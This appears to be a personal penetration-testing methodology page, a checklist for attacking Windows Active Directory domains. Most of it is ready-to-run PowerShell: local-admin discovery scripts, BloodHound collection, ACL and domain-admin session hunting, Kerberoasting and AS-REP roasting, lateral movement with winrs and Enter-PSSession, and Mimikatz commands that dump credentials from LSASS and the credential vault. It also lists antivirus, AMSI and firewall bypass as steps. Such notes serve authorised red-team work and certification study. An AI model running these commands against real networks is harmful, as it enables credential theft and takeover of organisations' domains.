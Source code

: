 # Methodology

## Beginning

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Bypass/deactivate AV/AMSI/
<strong>Bypass/deactivate AppLocker Policies
</strong>Bypass/deactivate Firewall
Get local Admin
Dump local users


. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
<strong>
</strong>. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess

<strong>Invoke-Sharefinder -vebose -domain ....
</strong><strong>
</strong><strong>Bloodhound/Sharphound
</strong><strong>=> Adding High-Value Targets (CS) / Set....
</strong><strong>=> Shortest Paths (CS) / Shortest Paths from Owned Principals (including everything)
</strong><strong>
</strong><strong>
</strong>Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupName"}
<strong>
</strong><strong>DA with running sessions and local admin of us
</strong>Invoke-Userhunter -groupname "domain admins"

Kerberoast:
Get-DomainUser -SPN

AS-REP Roasting:
Get-DomainUser -PreauthNotRequired -verbose
. .\ASREPRoast\ASREPRoast.ps1
Invoke-ASREPRoast -verbose
 
<strong>
</strong></code></pre>



## New User

**=> New Bloodhound/Sharphound collection**

**Enumerate where you have local admin with the new user**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Find-LocalAdminAccess -Verbose  ==> Results weird?!?!
<strong>
</strong><strong>. ./Find-WMILocalAdminAccess.ps1
</strong>Find-WMILocalAdminAccess
Find-WMILocalAdminAccess - Computerfile computer.txt -verbose (all domain Computerhostnames from Get-NetComputer)
winrs -r:hostname cmd
Enter-PSSession -ComputerName hostname.fqdn.local

. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
winrs -r:hostnamee cmd
Enter-PSSession -ComputerName hostname.fqdn.local

</code></pre>

**Enumerate Sessions with the new privs, because you need to be local admin**&#x20;

```powershell
Invoke-Userhunter -groupname "domain admins"
```

**Find modifieable ACLs with user / Member Groups**

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "yourusername"}
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "GroupNameWhereYourUserIsMemberOf"}

=> AS-REP Roasting eg.
=> Set Permissions
```
{% endcode %}





### New Computer

**Dump Creds from Lsass**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"
```

**Dump creds from credential vault (Scheduled Tasks)**

```powershell
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

**Unconstrained delegation of the machine and domain admin connects to that machine?**

**If we have Trusts, get Enterprise Admin with authenitcation of dc of the forest to authenticate to us.**



\
